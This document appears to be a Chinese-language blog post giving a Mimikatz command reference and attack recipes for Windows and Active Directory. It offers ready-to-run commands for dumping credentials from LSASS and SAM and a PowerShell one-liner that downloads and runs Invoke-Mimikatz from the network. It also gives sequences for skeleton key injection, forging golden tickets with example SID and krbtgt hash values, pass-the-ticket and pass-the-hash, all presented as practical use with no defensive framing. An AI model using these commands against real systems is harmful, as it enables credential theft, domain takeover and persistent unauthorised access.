 ```yaml
---
published: true
layout: post
---
```




# 常用的Mimikatz命令及相关功能
[下载链接](http://blog.gentilkiwi.com/mimikatz)

------------------------------


`CLS`---------------------------- 清屏
`CRYPTO::CERTIFICATES` –--------- 列出/导出凭证
`EXIT`--------------------------- 退出
`KERBEROS::GOLDEN` –------------- 创建黄金票证/白银票证/信任票证
`KERBEROS::LIST` ---------------- 列出在用户的内存中所有用户的票证（TGT 和 TGS）。不需要特殊的权限，因为它仅显示当前用户的票证。与 “KLIST” 的功能相似。
`KERBEROS::PTT` ----------------- 票证传递。通常用于注入窃取或伪造的 `KERBEROS` 票证（黄金票证/白银票证/信任票证）。
`LSADUMP::DCSYNC` --------------- 向 DC 发起同步一个对象（获取帐户的密码数据）的质询。无需在 DC 上执行代码。
`LSADUMP::LSA` –----------------- 向 LSA SERVER 质询检索 SAM/AD 的数据（正常或未打补丁的情况下）。可以从 DC 或者是一个LSASS.DMP 的转储文件中导出所有的 ACTIVE DIRECTORY 域凭证数据。同样也可以获取指定帐户的凭证，如 KRBTGT 帐户，使用 /NAME 参数，如：“/NAME:KRBTGT”
`LSADUMP::SAM` ------------------ 获取 SYSKEY 来解密 SAM 的项目数据（从注册表或者 HIVE 中导出）。SAM 选项可以连接到本地安全帐户管理器（SAM）数据库中并能转储本地帐户的凭证。可以用来转储在 WINDOWS 计算机上的所有的本地凭据。
`LSADUMP::TRUST` ---------------- 向 LSA SERVER 质询来获取信任的认证信息（正常或未打补丁的情况下）。为所有相关的受信的域或林转储信任密钥（密码）。
`MISC::ADDSID` –----------------- 将用户帐户添加到 SID 历史记录。第一个值是目标帐户，第二值是帐户/组名（可以是多个）（或 SID ）。
`MISC::MEMSSP` –----------------- 注入恶意的 WNDOWS SSP 来记录本地身份验证凭据。
`MISC::SKELETON` –--------------- 在 DC 中注入万能钥匙（SKELETON KEY） 到 LSASS 进程中。这使得所有用户所使用的万能钥匙修补 DC 使用 “主密码” （又名万能钥匙）以及他们自己通常使用的密码进行身份验证。
`NOGPO::CMD`--------------------- 打开系统的CMD.EXE
`NOGPO::REGEDIT` ---------------- 打开系统的注册表
`NOGPO::TASKMGR`----------------- 打开任务管理器
`PROCESS::LIST`------------------ 列出进程
`PROCESS::SUSPEND 进程名称` ------ 暂停进程
`PROCESS::STOP 进程名称`---------- 结束进程
`PROCESS::MODULES` -------------- 列出系统的核心模块及所在位置
`PRIVILEGE::DEBUG` -–------------ 获得 DEBUG 权限（很多 MIMIKATZ 命令需要 DEBUG 权限或本地 SYSTEM 权限）。
`PRIVILEGE::LIST`---------------- 列出权限列表
`PRIVILEGE::ENABLE`-------------- 激活一个或多个权限
`SYSTEM::USER`------------------- 查看当前登录的系统用户
`SYSTEM::COMPUTER`--------------- 查看计算机名称
`SERVICE::LIST`------------------ 列出系统的服务
`SERVICE::REMOVE`---------------- 移除系统的服务
`SERVICE::START STOP 服务名称`---- 启动或停止服务
`SEKURLSA::WDIGEST`-------------- 获取本地用户信息及密码
`SEKURLSA::TSPKG`---------------- 获取TSPKG用户信息及密码
`SEKURLSA::EKEYS` –-------------- 列出 KERBEROS 密钥
`SEKURLSA::KERBEROS` –----------- 列出所有已通过认证的用户的 KERBEROS 凭证（包括服务帐户和计算机帐户）
`SEKURLSA::KRBTGT` –------------- 获取域中 KERBEROS 服务帐户（KRBTGT）的密码数据
`SEKURLSA::LOGONPASSWORDS` –----- 列出所有可用的提供者的凭据。这个命令通常会显示最近登录过的用户和最近登录过的计算机的凭证。
`SEKURLSA::PTH` –---------------- HASH 传递 和 KEY 传递（注：OVER-PASS-THE-HASH 的实际过程就是传递了相关的 KEY(S)）
`SEKURLSA::TICKETS` –------------ 列出最近所有已经过身份验证的用户的可用的 KERBEROS 票证，包括使用用户帐户的上下文运行的服务和本地计算机在 AD 中的计算机帐户。与 KERBEROS::LIST 不同的是 SEKURLSA 使用内存读取的方式，它不会受到密钥导出的限制。
`TS::SESSIONS`------------------- 显示当前的会话
`TS::PROCESSES`------------------ 显示进程和对应的PID情况等
`TOKEN::LIST` –------------------ 列出系统中的所有令牌
`TOKEN::ELEVATE` –--------------- 假冒令牌。用于提升权限至 SYSTEM 权限（默认情况下）或者是发现计算机中的域管理员的令牌。
`TOKEN::ELEVATE /DOMAINADMIN` –-- 假冒一个拥有域管理员凭证的令牌。




-------------------------------------------------

常用

# 获取本机信息

* 直接获取内存口令 mimikatz：
`privilege::debug`
`sekurlsa::logonpasswords`

* 通过内存文件获取口令 使用procdump导出lsass.dmp mimikatz：
`sekurlsa::minidump lsass.dmp`
`sekurlsa::logonPasswords full`

* 通过powershell加载mimikatz获取口令
`powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz`

参考[3gstudent大神](http://static.hx99.net/static/drops/tips-7547.html):

`ms14-068.exe -u -p -s -d`
`kerberos::ptc test.ccache`

* 导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份（之前文章有介绍） mimikatz：
`lsadump::sam SYSTEM.hiv SAM.hiv`

# 维持域控权限

* Skeleton Key mimikatz：
`privilege::debug`
`misc::skeleton`

* golden ticket mimikatz：
`lsadump::lsa /patch`


* (Golden Ticket)生成万能票据： mimikatz：
`kerberos::golden /user:Administrator /domain:test.local /sid:S-1-5-21-2848411111-3820811111-1717111111 /krbtgt:d3b949b1f4ef947820f0950111111111 /ticket:test.kirbi`

* 导入票据： mimikatz：
`kerberos::ptt test.kirbi`

* Pass-The-Hash mimikatz：
`sekurlsa::pth /user:Administrator /domain:test.local /ntlm:cc36cf7a8514893efccd332446158b1a`

[mimikittenz](https://github.com/putterpanda/mimikittenz)是一款ps的抓密码的工具
![post1]({{ site.baseurl }}/images/post1.jpg)
